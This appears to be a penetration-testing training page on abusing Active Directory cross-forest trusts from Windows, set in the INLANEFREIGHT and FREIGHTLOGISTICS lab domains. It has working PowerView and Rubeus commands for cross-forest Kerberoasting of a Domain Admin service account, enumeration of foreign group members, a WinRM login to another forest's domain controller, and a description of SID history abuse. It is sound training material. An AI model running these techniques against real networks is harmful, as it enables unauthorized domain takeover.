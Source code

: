 # Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows

## Cross-Forest Kerberoasting

Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction. In a situation where you are positioned in a domain with either an inbound or bidirectional domain/forest trust, you can likely perform various attacks to gain a foothold. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.

### **Enumerating Accounts for Associated SPNs Using Get-DomainUser**

We can utilize PowerView to enumerate accounts in a target domain that have SPNs associated with them.

```powershell
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

We see that there is one account with an SPN in the target domain. A quick check shows that this account is a member of the Domain Admins group in the target domain, so if we can Kerberoast it and crack the hash offline, we'd have full admin rights to the target domain.

### **Enumerating the mssqlsvc Account**

```powershell
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

### **Performing a Kerberoasting Attacking with Rubeus Using /domain Flag**

Let's perform a Kerberoasting attack across the trust using `Rubeus`. We run the tool as we did in the Kerberoasting section, but we include the `/domain:` flag and specify the target domain.

```powershell
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>
```

We could then run the hash through Hashcat. If it cracks, we've now quickly expanded our access to fully control two domains by leveraging a pretty standard attack and abusing the authentication direction and setup of the bidirectional forest trust.

***

## Admin Password Re-Use & Group Membership

From time to time, we'll run into a situation where there is a bidirectional forest trust managed by admins from the same company. If we can take over Domain A and obtain cleartext passwords or NT hashes for either the built-in Administrator account (or an account that is part of the Enterprise Admins or Domain Admins group in Domain A), and Domain B has a highly privileged account with the same name, then it is worth checking for password reuse across the two forests. I occasionally ran into issues where, for example, Domain A would have a user named `adm_bob.smith` in the Domain Admins group, and Domain B had a user named `bsmith_admin`. Sometimes, the user would be using the same password in the two domains, and owning Domain A instantly gave me full admin rights to Domain B.

We may also see users or admins from Domain A as members of a group in Domain B. Only `Domain Local Groups` allow security principals from outside its forest. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. If we can take over this admin user in Domain A, we would gain full administrative access to Domain B based on group membership.

### **Using Get-DomainForeignGroupMember**

We can use the PowerView function [Get-DomainForeignGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainForeignGroupMember) to enumerate groups with users that do not belong to the domain, also known as `foreign group membership`. Let's try this against the `FREIGHTLOGISTICS.LOCAL` domain with which we have an external bidirectional forest trust.

```powershell
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

The above command output shows that the built-in Administrators group in `FREIGHTLOGISTICS.LOCAL` has the built-in Administrator account for the `INLANEFREIGHT.LOCAL` domain as a member. We can verify this access using the `Enter-PSSession` cmdlet to connect over WinRM.

### **Accessing DC03 Using Enter-PSSession**

```powershell
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACADEMY-EA-DC03
   Primary Dns Suffix  . . . . . . . : FREIGHTLOGISTICS.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : FREIGHTLOGISTICS.LOCAL
```

From the command output above, we can see that we successfully authenticated to the Domain Controller in the `FREIGHTLOGISTICS.LOCAL` domain using the Administrator account from the `INLANEFREIGHT.LOCAL` domain across the bidirectional forest trust. This can be a quick win after taking control of a domain and is always worth checking for if a bidirectional forest trust situation is present during an assessment and the second forest is in-scope.

***

## SID History Abuse - Cross Forest

SID History can also be abused across a forest trust. If a user is migrated from one forest to another and SID Filtering is not enabled, it becomes possible to add a SID from the other forest, and this SID will be added to the user's token when authenticating across the trust. If the SID of an account with administrative privileges in Forest A is added to the SID history attribute of an account in Forest B, assuming they can authenticate across the forest, then this account will have administrative privileges when accessing resources in the partner forest. In the below diagram, we can see an example of the `jjones` user being migrated from the `INLANEFREIGHT.LOCAL` domain to the `CORP.LOCAL` domain in a different forest. If SID filtering is not enabled when this migration is made and the user has administrative privileges (or any type of interesting rights such as ACE entries, access to shares, etc.) in the `INLANEFREIGHT.LOCAL` domain, then they will retain their administrative rights/access in `INLANEFREIGHT.LOCAL` while being a member of the new domain, `CORP.LOCAL` in the second forest.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This attack will be covered in-depth in a later module focusing more heavily on attacking AD trusts.

***

## Onwards

Next, we'll walk through some examples of attacking across a forest trust from a Linux attack host.
